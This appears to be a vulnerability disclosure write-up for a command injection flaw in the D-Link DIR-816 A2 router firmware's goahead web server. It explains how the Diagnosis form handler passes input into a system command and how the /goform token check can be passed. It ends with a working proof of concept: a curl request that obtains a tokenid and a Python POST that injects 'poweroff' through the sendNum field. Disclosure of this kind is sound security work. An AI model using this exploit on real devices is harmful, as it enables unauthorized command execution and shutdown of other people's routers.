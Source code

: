 # D-Link DIR-816 A2 1.10 B05 command injection

## Firmware address
http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-816
![image-1](./img/1.jpg)

## Vulnerability
Vulnerability is in ./bin/goahead. The function corresponding to Diagnosis can be found in the formDefineManagement function: 
![image-1](./img/2.jpg)

In the sub_45AC4C function  

![image-1](./img/3.jpg)

After concatenating the strings, the system command is executed.

but in the main function, Accessing the /goform route requires verification by the websFormHandler function
![image-1](./img/4.jpg)

In the websFormHandler function
![image-1](./img/5.jpg)

Accessing the /goform route need a tokenid, and access this route can get a tokenid
![image-1](./img/6.jpg)

## Verify
First, get a tokenid
```
curl http://127.0.0.1/dir_login.asp
```
Excuting command
```
import requests

url = "http://127.0.0.1/goform/Diagnosis"

data = {
    "tokenid": "xxx",
    "pingAddr": "127.0.0.1",
    "sendNum": "poweroff"
}

requests.post(url=url, data=data)
```
